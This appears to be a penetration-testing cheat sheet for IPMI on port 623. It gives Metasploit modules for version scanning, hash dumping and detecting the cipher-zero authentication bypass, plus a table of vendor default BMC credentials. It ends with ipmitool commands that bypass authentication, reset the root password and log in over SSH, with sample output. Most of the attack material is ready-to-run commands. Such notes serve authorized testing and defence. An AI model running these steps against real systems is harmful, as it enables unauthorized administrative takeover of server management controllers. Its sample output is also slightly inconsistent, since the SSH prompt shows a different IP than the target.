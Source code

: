```yaml
---
description: >-
  Intelligent Platform Management Interface (IPMI)  is a set of computer
  interface specifications for an autonomous computer subsystem that provides
  management and monitoring capabilities independently.
---
```


# 623 - IPMI

### Metasploit

### Find version

```text
msf > use auxiliary/scanner/ipmi/ipmi_version
msf auxiliary(ipmi_version) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_version) > run
[*] Sending IPMI requests to 10.0.0.0->10.0.0.255 (256 hosts)
[+] 10.0.0.22:623 - IPMI - IPMI-2.0 UserAuth(auth_user,non_null_user) PassAuth(md5,md2)Level(1.5,2.0)
```

### Dump hashes

```text
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts [TARGETS] 
run 
```

### Common default credentials

| Product Name  | Default Username  | Default Password  |
| :--- | :--- | :--- |
| HP Integrated Lights Out \(iLO\)  | Administrator  | &lt;factory randomized 8-character string&gt;  |
| Dell Remote Access Card \(iDRAC, DRAC\)  | root  | calvin  |
| IBM Integrated Management Module \(IMM\)  | USERID  | PASSW0RD \(with a zero\)  |
| Fujitsu Integrated Remote Management Controller  | admin  | admin  |
| Supermicro IPMI \(2.0\)  | ADMIN  | ADMIN  |
| Oracle/Sun Integrated Lights Out Manager \(ILOM\)  | root  | changeme  |
| ASUS iKVM BMC  | admin  | admin  |

Resources: [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

## Zero cipher authentication bypass

Zero cipher authentication bypass resulting in administrative access

### Check if vulnerable

```text
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf auxiliary(ipmi_cipher_zero) > set RHOSTS 10.0.0.22
msf auxiliary(ipmi_cipher_zero) > run
[*] Sending IPMI requests to 10.0.0.22->10.0.0.22 (1 hosts)
[+] 10.0.0.22:623 - IPMI - VULNERABLE: Accepted a session open request
```

### Connect

The Linux ipmitool client is used to interact with the service and bypass authentication \(via the -C 0 option\).

We will set the root user account password to abc123 via IPMI.

```text
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
ID Name Callin Link Auth IPMI Msg Channel Priv Limit
2 root true true true ADMINISTRATOR
3 Oper1 true true true ADMINISTRATOR
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123
root@kali:~# ssh root@10.0.0.22
root@10.121.1.22's password: abc123
17
18
19 20
/admin1-> version
SM CLP Version: 1.0.2
SM ME Addressing Version: 1.0.0b
```

